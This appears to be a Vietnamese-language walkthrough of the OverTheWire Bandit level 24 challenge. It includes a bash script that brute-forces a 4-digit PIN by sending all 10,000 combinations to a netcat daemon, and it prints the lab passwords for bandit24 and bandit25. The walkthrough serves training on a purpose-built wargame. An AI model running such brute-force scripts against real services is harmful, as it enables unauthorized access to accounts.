 ## 🕵️‍♂️ Challenge:  
### A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.  
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time  

## 📝 Solution:

Kết nối ssh đến máy chủ `bandit.labs.overthewire.org` với tên người dùng `bandit24`, cổng `2220`  
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Password lấy từ thử level trước:  
> gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

Thử thách này bắt chúng ta bruteforce mật khẩu 4 chữ số trên server netcat.  
Thử lần đầu với pin 0000 để xem nó trả về gì:  

<img width="1470" height="162" alt="image" src="https://github.com/user-attachments/assets/4e84f601-5c7c-44ce-8f48-b9ba75fe00bb" />

Vậy bây giờ ta sẽ viết script có nội dung như sau:  
```bash
#!/bin/bash

for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> input.txt 
done

cat input.txt | nc localhost 30002 > output.txt
```
Đầu tiên tạo thư mục tạm và di chuyển vào đó để tạo file script:  
```bash
mktemp -d
```
Tạo file script:  
```bash
nano solve.sh
# Viết script có nội dung trên.  
chmod +x solve.sh
./solve.sh
```
Sau khi chạy, ta đã có output chứa tất cả đầu ra của các trường hợp PIN khác nhau:  

<img width="584" height="82" alt="image" src="https://github.com/user-attachments/assets/1c59e0fb-49e6-409d-9588-258d38dc9d63" />

Vậy bây giờ dựa vào output của trường hợp đã thử ở trên, in ra dòng ko chứa `Wrong` là được.  
```bash
cat output.txt | grep -v "Wrong!"
```

<img width="1466" height="139" alt="image" src="https://github.com/user-attachments/assets/b0cb4b30-08b8-4501-8ad2-537ba629ad98" />

Xong ròi.  

>### 🎯 Pass: ***iCi86ttT4KSNe1armKiwbQNmB3YJP3q4***
